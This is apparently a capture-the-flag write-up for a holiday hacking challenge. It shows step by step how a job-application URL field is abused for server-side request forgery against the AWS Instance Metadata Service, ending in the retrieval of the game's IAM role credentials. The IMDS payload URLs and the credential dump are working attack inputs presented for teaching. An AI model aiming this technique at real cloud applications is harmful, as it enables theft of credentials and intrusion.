


# Challenge 10: Now Hiring!

> What is the secret access key for the Jack Frost Tower job applications server? Brave the perils of Jack's bathroom to get hints from Noxious O. D'or.

## The Hint

Heading over to the bathroom in Jack Frost Tower, we are greeted by Noxious:

> Hey, this is the executive restroom. Wasn't that door closed?
>
> I’m Noxious O’Dor. And I’ve gotta say, I think that Jack Frost is just messed up.
>
> I mean, I'm no expert, but his effort to "win" against Santa by going bigger and bolder seems bad.
>
> You know, I’m having some trouble with this IMDS exploration. I’m hoping you can give me some help in solving it.
>
> If you do, I’ll be happy to trade you for some hints on SSRF! I’ve been studying up on that and have some good ideas on how to attack it!

After opening the terminal, which we hope people wash their hands before using, we get the following prompt:

```bash
🎄🎄🎄 Prof. Petabyte here. In this lesson you'll continue to build your cloud asset skills,
🎄🎄🎄 interacting with the Instance Metadata Service (IMDS) using curl.
🎄🎄🎄
🎄🎄🎄 If you get stuck, run 'hint' for assitance.
🎄🎄🎄

───────────────────────────────────────────────────────────────────────────────────────────────

Are you ready to begin? [Y]es: y

The Instance Metadata Service (IMDS) is a virtual server for cloud assets at the IP address
169.254.169.254. Send a couple ping packets to the server.


───────────────────────────────────────────────────────────────────────────────────────────────
elfu@78ad54077bf9:~$
```

After sending a ping command to the specified IP, the prompt updates. It seems like this challenge will be an
interactive walkthrough. After walking through each task, this challenge completes successfully, and here's what Noxious
has to say:

> Phew! That is something extra! Oh, and you solved the challenge too? Great!
>
> Cloud assets are interesting targets for attackers. Did you know they automatically get IMDS access?
>
> I'm very concerned about the combination of SSRF and IMDS access.
>
> Did you know it's possible to harvest cloud keys through SSRF and IMDS attacks?
>
> Dr. Petabyte told us, "anytime you see URL as an input, test for SSRF."
>
> With an SSRF attack, we can make the server request a URL. This can reveal valuable data!
>
> The AWS documentation for IMDS is interesting reading.

## The Main Challenge

Let's head to the Frost Tower website and see what we're facing:



Clicking `Apply Now` leads us to an application page with some standard fields, and interestingly, a field to collect a
web accessible `NLBI` (Naughty List Background Investigation) report. Recalling our hint from Noxious, this seems like a
good place to try out some SSRF/IMDS attacks.  We can fill out some fake details, and in the `NLBI` field, place:

```
http://169.254.169.254/latest/meta-data/iam/security-credentials
```

If the server uses this URL to fetch data, we may be able to retrieve metadata about the underlying AWS infrastructure.  Once we hit submit, we get the following acceptance page:



Interestingly, there seems to be a broken image being presented.  Let's grab that using wget and inspect the contents:

```bash
$ wget https://apply.jackfrosttower.com/images/test.jpg 2>/dev/null && cat test.jpg; echo
jf-deploy-role
```

So it seems like we have validated an SSRF attack vector which leverages IMDS.  Let's submit another application with the folloing URL:

```
http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role
```

And inspect the resulting image again:

```bash
$ wget https://apply.jackfrosttower.com/images/test2.jpg 2>/dev/null && cat test2.jpg; echo
{
        "Code": "Success",
        "LastUpdated": "2021-05-02T18:50:40Z",
        "Type": "AWS-HMAC",
        "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
        "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
        "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
        "Expiration": "2026-05-02T18:50:40Z"
}
```

We have successfully retrieved the answer to this challenge: `CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX`